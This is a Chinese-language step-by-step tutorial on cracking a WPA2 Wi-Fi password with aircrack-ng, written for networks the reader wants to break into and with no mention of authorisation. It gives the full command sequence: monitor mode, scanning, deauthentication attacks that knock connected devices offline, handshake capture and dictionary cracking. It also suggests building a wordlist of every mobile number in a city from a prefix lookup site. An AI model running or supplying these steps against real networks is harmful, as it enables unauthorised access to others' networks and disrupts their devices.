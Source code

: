 #### 0.首先需要全程**root权限**，或者每个命令加**sudo**

#### 1.查看网卡是否支持监控模式

​	执行：【**airmon-ng**】，结果中有wlan0(也有可能是其他的)即代表支持监控模式

#### 2.开启无线网卡监控模式

​	【**airmon-ng start wlan0**】

> ​	如果报错了就看看有没有进程占用 执行 **airmon-ng check kill** 可以杀掉无关的进程

#### 3.查看wifi网络

​	【**airodump-ng wlan0mon**】

> 命令执行后会把周围的无线网络按照信号强度由上到下排列到一个列表，当列表中出现你想要破解的wifi网络后，按**CTRL+C**停止。

#### 4.显示出当前连接该WiFi的所有设备

​	【airodump-ng -c {信道} --bssid {路由器BSSID} -w [握手包存放路径] wlan0mon】

> 本方法最大的弊端是必须要有无线设备连接到这个WiFi才能破解

#### 5.强制设备下线并抓包

​	上一步的终端窗口别动，新开一个窗口输入

​	【aireplay-ng -0 2 -a {路由器BSSID} -c {设备MAC} wlan0mon】

> 这段代码的意思是攻击连在这个WiFi上的该设备2次 如果你省略了-c以及后面的Mac地址，那意思就是攻击该WiFi上的所有设备(有线连接除外) 括号里面的两个参数全部复制就可以了。

> 一般的智能终端，掉线之后都会重连的。在他重连的时候，我们就抓到了正确密码密码的包。因为这个包全部都是加密的，不是明文的，我们接下来就需要破解它的加密。

抓到包后 终端的右上角会多出一个**xxxx found** 这时候就可以ctrl＋C停止抓包了

#### 6.关闭无线网卡监控模式(此时WiFi才可以正常使用)

​	【airmon-ng stop wlan0mon】

#### 7.跑字典

​	aircrack-ng -a2 -b [路由器BSSID] -w [字典目录.txt] [握手包目录.cap]



> 绝大多数人都使用手机号作为密码，所以只需要生成一个地区手机号字典即可。
>
> 该网站https://www.chahaoba.com/城市 可以查看城市的所有号段
>
> ​	只需要前七位就可以，然后使用python写一个从前七位后面自动加0000到9999的小程序即可
>
> ​	并输出到txt文件，就获得了某个特定城市的全部的手机号可能，再去跑字典成功率就会很高了
